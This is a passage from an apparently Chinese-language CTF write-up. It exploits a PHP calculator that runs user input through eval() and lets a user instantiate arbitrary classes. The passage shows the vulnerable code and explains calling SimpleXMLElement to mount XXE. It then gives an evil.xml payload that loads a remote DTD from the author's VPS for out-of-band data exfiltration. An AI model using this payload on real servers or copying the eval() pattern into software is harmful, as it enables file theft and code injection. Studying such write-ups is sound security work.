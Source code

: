 ```
                $method="-";
                break;

            case 'c':
                $method="*";
                break;

            case 'd':
                $method="/";
                break;

            default:
                die("invalid input");
        }
        $Expression=$args1.$method.$args2;
        eval("\$r=$Expression;");
        die("Calculation results:".$r);
    }
}
?>
```

我们点击calc按钮，计算2+2=4，我们观察url处的参数，再结合`calc`计算器类的代码可知module为调用的类，args为类的构造方法的参数：

![image-20231213183133814](assets/image-20231213183133814.png)

所以我们可以通过这种形式调用PHP中的内置类。这里我们通过调用 SimpleXMLElement 这个内置类来构造 XXE。

首先，我们在vps（47.xxx.xxx.72）上构造如下evil.xml、send.xml和send.php这三个文件。

evil.xml：

```
<?xml version="1.0"?>
<!DOCTYPE ANY[
<!ENTITY % remote SYSTEM "http://47.xxx.xxx.72/send.xml">
%remote;
%all;
%send;
]>
```

send.xml：
